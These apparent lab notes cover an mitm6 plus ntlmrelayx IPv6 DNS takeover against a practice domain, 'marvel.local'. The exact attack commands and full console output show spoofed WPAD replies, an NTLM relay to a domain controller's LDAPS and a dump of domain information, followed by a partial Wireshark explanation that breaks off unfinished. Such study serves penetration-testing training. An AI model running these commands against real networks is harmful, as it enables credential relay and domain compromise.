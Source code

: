 
If mitm6 not yet installed
1. cd /opt/mitm6
2. sudo pip3 install .


How to initiate the attack?

1. Prepare the command `sudo mitm6 -d marvel.local`. Do not yet execute it as we will run ntlmrelayx first.
2. Execute `ntlmrelayx 6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -escalate-user pparker` or `The Domain Computer requested wpad.dat file to the attacker's machine. based from the image, it successfully downloaded the wpad.dat.` - Sets up the relay server and WPAD host, ready to intercept and relay NTLM authentication.

```
└─$ impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client fe80::fde3:206f:be61:b3b7
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, attacking target ldaps://192.168.64.250
[*] HTTPD(80): Authenticating against ldaps://192.168.64.250 as MARVEL/PUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409

```
3. Now execute the `sudo mitm6 -d marvel.local`

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local                                                          
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [ea:f0:2f:00:11:3a]
IPv4 address: 192.168.64.4
IPv6 address: fe80::e8f0:2fff:fe00:113a
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::913:1 is now assigned to mac=8e:27:0f:ff:34:d1 host=SPIDERMAN.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Renew reply sent to fe80::913:1
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7


```

4. After that,  a loot me file was saved in the /home/kali directory

Capturing, in the wireshark, here is the step by step

1. IPV6 router advertisement - The attacker/kali impersonates will introduce itself as an  IPV6 router
![[Pasted image 20240716203249.png]]
2. DHCPv6 Activity - After the domain computer reboots, it perform DHCPv6 solicitation in response to the new router advertisement. The Kali then offers link local and global address to the domain computer
![[Pasted image 20240716205537.png]]

3. After obtaining DHCPv6 address, it then query for WPAD(Web proxy auto discovery) . As you see below, the client queries for the IPv4 and IPv6 address of wpad.marvel.local and the attacker replies its IPv4 and IPV6 address
![[Pasted image 20240716213537.png]]

4. The Domain Computer acknowledged that the WPAD server is kali/attacker's IP. It will request the wpad.dat file to the attacker's machine via HTTP `GET`. Based on the image below, it successfully downloaded the wpad.dat.
`GET http://fakewpad.marvel.local/wpad.dat`
![[Pasted image 20240716221027.png]]

5.  The `wpad.dat` file contains JavaScript that directs the host to use the attacker's (Kali's) proxy. It will direxr
6. When the domain computer makes HTTP request to the internet, it goes to the attacker's web proxy. It attempts to authenticate to the attacker's(KALi) proxy using NTLM authentication.

7.  The attacker responds with ;407 Proxy Authentication required, prompting the domain computer to send an NTLM authentication (NTLM Negotiate)
2. The domain computer sends an NTLM Negotiate message to the attacker.
3. 

